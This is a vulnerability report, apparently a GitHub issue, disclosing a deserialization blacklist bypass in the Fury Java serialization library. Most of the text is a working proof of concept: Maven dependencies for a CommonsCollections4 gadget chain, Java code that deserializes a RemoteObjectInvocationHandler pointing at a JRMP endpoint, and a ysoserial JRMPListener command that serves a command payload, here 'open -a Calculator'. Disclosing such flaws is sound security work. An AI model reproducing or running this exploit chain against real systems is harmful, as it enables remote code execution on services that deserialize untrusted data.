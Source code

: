 一、Description：
The open source component fury deserialization blacklist exists to bypass execution commands. 
The blacklist lacks the RemoteObjectInitationHandler class. 
This class can be used as a JRMP client to initiate a request to a malicious JRMP server. 
The JRMP server returns a serialized object, and the JRMP client deserializes it. cause the command to be executed.
二、Proof：
1、build environment
Create a new maven project and import dependencies:
<dependency>
 <groupId>org.furyio</groupId>
 <artifactId>fury-core</artifactId>
 <version>0.1.0-alpha.2</version>
</dependency>
<!--RCE with CC4-->
<dependency>
 <groupId>org.apache.commons</groupId>
 <artifactId>commons-collections4</artifactId>
 <version>4.0</version>
</dependency>
2、POC
ObjID id = new ObjID(new Random().nextInt()); // RMI registry
TCPEndpoint te = new TCPEndpoint("0.0.0.0", 8889);
UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
// Note that Fury instances should be reused between
// multiple serializations of different objects.
{
Fury fury = Fury.builder().withLanguage(Language.JAVA).withSecureMode(false)
// Allow to deserialize objects unknown types,
 // more flexible but less secure.
 // .withSecureMode(false)
 .build();
// Registering types can reduce class name serialization overhead, but not mandatory.
 // If secure mode enabled, all custom types must be registered.
 byte[] bytes = fury.serialize(obj);
System.out.println(fury.deserialize(bytes));
}
3、start a yso process
java -cp ysuserial-1.5-su18-all.jar org.su18.ysuserial.exploit.JRMPListener 8889 -g CommonsCollections4 -p "open -a Calculator"
4、run poc program
